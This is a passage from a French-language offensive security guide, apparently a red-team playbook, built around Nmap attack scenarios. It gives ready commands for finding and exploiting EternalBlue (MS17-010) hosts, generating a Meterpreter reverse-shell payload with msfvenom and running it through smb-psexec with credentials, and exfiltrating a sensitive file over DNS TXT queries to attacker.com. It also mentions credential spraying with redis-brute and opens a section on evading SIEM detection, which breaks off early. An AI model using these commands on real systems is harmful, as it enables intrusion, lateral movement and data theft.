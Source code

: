 Point Clé:
* Utilisez le script NSE redis-brute pour la pulvérisation d'identifiants. Vérifiez toujours les permissions dir pour l'exécution de code.

### 5.3 SCÉNARIO 3: MOUVEMENT LATÉRAL VIA DES VULNÉRABILITÉS SMB

Objectif: Élever les privilèges et pivoter à travers un domaine Windows en utilisant EternalBlue (MS17-010).

Défi:
* Les hôtes internes sont patchés, mais des systèmes hérités restent non patchés.

Approche Technique:
1. Identifier les Hôtes Vulnérables:
   `nmap -p445 --script smb-vuln-ms17-010 10.10.1.0/24`
   o Recherchez le statut VULNERABLE dans la sortie du script.

2. Livrer la Charge Utile via l'Intégration Nmap + Metasploit:
   Générez une charge utile étagée et déclenchez-la via Nmap:
   `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.0.2 LPORT=4444 -f exe -o exploit.exe`
   Utilisez Nmap pour charger et exécuter:
   `nmap -p445 --script smb-psexec --script-args smbusername=admin,smbpass=Passw0rd!,smbdomain=corp,config=exploit.exe 10.10.1.50`

Point Clé:
* Combinez la détection de vulnérabilité de Nmap avec Metasploit/Cobalt Strike pour l'armement.

### 5.4 SCÉNARIO 4: EXFILTRATION DE DONNÉES VIA TUNNELING DNS

Objectif: Exfiltrer des données volées d'un réseau isolé en utilisant des requêtes DNS.

Défi:
* Le trafic de sortie est limité à DNS (UDP 53).

Approche Technique:
1. Identifier les Résolveurs DNS Permissifs:
   `nmap -sU -p53 --script dns-recursion [target]`
   o Recherchez recursion enabled: YES.

2. Encoder et Exfiltrer des Données:
   Utilisez le chunking base64 et les requêtes DNS TXT:
   `cat sensitive.txt | base64 | while read chunk; do nmap -sU -p53 --script dns-query --script-args dns-query.name="$chunk.attacker.com",dns-query.type=TXT <dns_server>; done`

Point Clé:
* Utilisez --script dns-query pour tester le canal caché. Surveillez les volumes anormaux d'enregistrements TXT.

### 5.5 SCÉNARIO 5: ÉVITER L'ANALYSE DE TRAFIC RÉSEAU

Objectif: Effectuer un scan furtif sans déclencher d'alertes SIEM.

Défi:
* Le trafic réseau est analysé pour les modèles de scan (par exemple, sondes de port séquentielles rapides).
